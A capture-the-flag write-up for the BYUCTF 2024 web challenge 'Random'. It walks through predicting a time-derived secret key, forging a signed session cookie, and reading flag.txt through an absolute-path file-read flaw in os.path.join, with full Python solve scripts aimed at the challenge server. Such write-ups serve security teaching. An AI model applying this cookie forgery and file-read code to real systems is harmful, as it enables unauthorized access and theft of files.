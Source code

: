 ```yaml
---
title: "BYUCTF 2024 - Random"
date: "2024-08-15"
tags: 
- writeups
- web
- BYUCTF2024
---
```


## Overview

Overall this was a pretty fun challenge, I enjoyed it a lot. It came off as easy at first, but tricked me in a few places. This challenge can be broken down into two major stages: figure out how to get the same secret key to sign a session cookie and how to get the file `flag.txt` from the `filename` url parameter.

## Approach

When I first opened up the web page, I got a 403 error. So I inspected the source code provided and found that the server is checking for a key value pair`{userid: 0}` in the session cookie.

![web1_1](images/byu1_1.png)

![web1_2](images/byu1_2.png)


### Stage 1

In order to sign the session cookie, I needed to create the same secret key as the server used to authenticate. Looking through the source code, I found that it returned `time.time()-time.started()` in the response when I sent a request with an incorrect session cookie. So I extracted the seconds in the response and calculated `time_started`, which was the key to crafting the secret key. Here is my code for signing the session cookie:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}
```


### Stage 2

The next stage of the challenge involved reading the file `flag.txt` from the `filename` url parameter. I first looked through the Dockerfile and found the directory `flag.txt` was in. The tricky part here was figuring out how to get from `files/` to the correct directory without using `../` for path traversal. It turned out that `os.path.join()` will overwrite the previous path if it sees another absolute path. So to get the final flag, I sent the request to the route `/api/file` with the absolute path to the file as the parameter.

```
r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```


## Solution

Putting everything together, here is my final solve for the challenge:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}

r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```
